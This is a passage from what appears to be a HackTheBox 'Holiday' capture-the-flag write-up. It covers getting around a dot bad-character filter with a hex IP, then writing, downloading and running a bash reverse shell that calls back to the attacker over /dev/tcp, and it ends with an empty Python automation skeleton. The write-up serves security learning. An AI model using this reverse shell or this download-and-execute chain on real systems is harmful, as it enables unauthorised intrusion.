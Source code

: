 And we have RCE! Now let's work in our reverse shell, and after that let's make a js to do this all thing together for us

I tried to ping myself, but no sucess because dot is a bad char

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:00:41.png)

So, I'll need to change my ip to hex

[Converter](https://www.ipaddressguide.com/ip)

We convert our ip

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:05:17.png)

And send it to the server to ping us back

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:05:05.png)

So, let's create a bash reverses shell, download and execute it

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.20/448 0>&1' > shell
cat shell
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:07:54.png)

We download it with wget

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:08:46.png)

And execute it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:09:19.png)

We have shell! Now, let's automate it to auto get a reverse shell

# Auto Shell

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```
